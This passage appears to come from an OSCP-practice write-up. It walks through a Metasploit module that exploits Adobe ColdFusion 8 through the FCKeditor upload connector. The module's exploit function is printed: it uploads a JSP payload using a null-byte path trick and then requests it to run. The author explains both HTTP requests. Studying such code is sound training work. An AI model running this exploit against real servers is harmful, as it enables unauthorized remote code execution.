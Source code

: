 

Especially for OSCP practice, being able to read a Metasploit script and
understand it is a critical still. I'll open the script with
`searchsploit -x cfm/webapps/16788.rb`. The most interesting path is the
`exploit` function:



    def exploit

        page  = rand_text_alpha_upper(rand(10) + 1) + ".jsp"

        dbl = Rex::MIME::Message.new
        dbl.add_part(payload.encoded, "application/x-java-archive", nil, "form-data; name=\"newfile\"; filename=\"#{rand_text_alpha_upper(8)}.txt\"")
        file = dbl.to_s
        file.strip!

        print_status("Sending our POST request...")

        res = send_request_cgi(
            {
                'uri'           => "#{datastore['FCKEDITOR_DIR']}",
                'query'         => "Command=FileUpload&Type=File&CurrentFolder=/#{page}%00",
                'version'       => '1.1',
                'method'        => 'POST',
                'ctype'         => 'multipart/form-data; boundary=' + dbl.bound,
                'data'          => file,
                }, 5)

        if ( res and res.code == 200 and res.body =~ /OnUploadCompleted/ )
            print_status("Upload succeeded! Executing payload...")

            send_request_raw(
                {
                    # default path in Adobe ColdFusion 8.0.1.
                    'uri'           => '/userfiles/file/' + page,
                    'method'        => 'GET',
                    }, 5)

            handler
        else
            print_error("Upload Failed...")
            return
        end

    end



This is a relatively simply exploit - it makes two HTTP requests. First
is a POST to `FCKEDITOR_DIR`, which has a default value of
`/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`
defined earlier in the script. Then it does a GET to `/userfiles/file/`
to trigger the payload.
